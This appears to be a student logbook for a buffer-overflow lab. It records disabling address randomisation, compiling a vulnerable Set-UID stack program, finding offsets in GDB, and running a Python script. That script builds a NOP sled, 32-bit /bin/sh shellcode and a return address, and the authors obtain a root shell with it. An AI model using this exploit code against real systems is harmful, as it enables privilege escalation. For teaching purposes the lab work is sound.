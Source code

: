 # Log Book 5 - Buffer Overflow

## Question 1

### Task 1

This first task was to set up our environment. 
Firstly, we needed to disable the space randomization in order know the exact addresses in this attack. After that, we changed the shell link to /bin/zsh, since our attack is a Set-UID program.
Finally, we compiled the file call_shellcode.c which had two copies of shellcode (32-bit and 64-bit). Both versions allowed us shell access.

![Task 1](/Images/Logbook5/Lab5Task1.png)

### Task 2

In this task, we were asked to compile the program stack.c. Beforehand, we changed the value of L1 to 132 (100 + 8 * 4) inside the Makefile. It's important to note that the Makefile is configured to compile the program with proper flag in order to be able to do the attack.

![Task 2](/Images/Logbook5/Lab5Task2.png)

### Task 3

To exploit the buffer-overflow vulnerability, we had to know the distance between the buffer's starting position and the where the return address is stored.

![Task 3 part 1](/Images/Logbook5/Lab5Task2p3.png)

Also, exploring GDB, we found EBP and BUFFER:

![Task 3 part 2](/Images/Logbook5/Lab5Task2p2.png)

Using the following code in python and the information we got from the ebp value and the buffer's address we could plan our attack:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) - 1          # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc97c + start
offset = 0xffffca08 - 0xffffc97c + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Finally, running the python program as well as the stack program we were able to get a root shell:

![Task 3 part 3](/Images/Logbook5/Lab5Task3.png)

## Question 2

Using the GDB again, we found where the NOPEs are being written. In this case, starts in the address 0xFFFFCE34:

![Question 2 part 1](/Images/Logbook5/Lab5Question2.png)

Additionally, the shellcode should be right at the end of the NOPEs, according to our script file (0xFFFFD01D):

![Question 2 part 2](/Images/Logbook5/Lab5Question2p2.png)

Finally, we calculated the the return address was 0xFFFFCB65, 140 positions after the beginning of the NOPEs:

![Question 2 part 3](/Images/Logbook5/Lab5Question2p3.png)

